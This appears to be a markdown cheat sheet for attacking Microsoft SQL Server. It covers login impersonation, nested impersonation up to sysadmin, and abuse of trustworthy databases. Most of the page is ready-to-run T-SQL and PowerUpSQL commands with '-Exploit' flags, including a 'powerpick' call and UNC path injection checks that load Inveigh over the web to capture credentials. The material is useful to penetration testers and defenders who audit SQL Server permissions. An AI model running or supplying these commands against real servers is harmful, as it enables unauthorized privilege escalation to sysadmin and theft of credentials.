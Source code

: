 # MSSQL - Audit Checks

## Summary

* [Find and exploit impersonation opportunities ](#find-and-exploit-impersonation-opportunities)
* [Find SQL Server Logins Which can be Impersonated for the Current Database](#find-sql-server-logins-which-can-be-impersonated-for-the-current-database)
* [Find databases that have been configured as trustworthy](#find-databases-that-have-been-configured-as-trustworthy)


## Find and exploit impersonation opportunities

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER
	```sql
	SQL> select is_member('db_owner');
	SQL> execute as user = 'dbo'
	SQL> SELECT is_srvrolemember('sysadmin')
	```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### Exploiting Nested Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
```


## Find SQL Server Logins Which can be Impersonated for the Current Database

```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```


## Find databases that have been configured as trustworthy

```sql
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 

SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```

> The following audit checks run web requests to load Inveigh via reflection. Be mindful of the environment and ability to connect outbound.

```ps1
Invoke-SQLAuditPrivXpDirtree
Invoke-SQLUncPathInjection
Invoke-SQLAuditPrivXpFileexist
```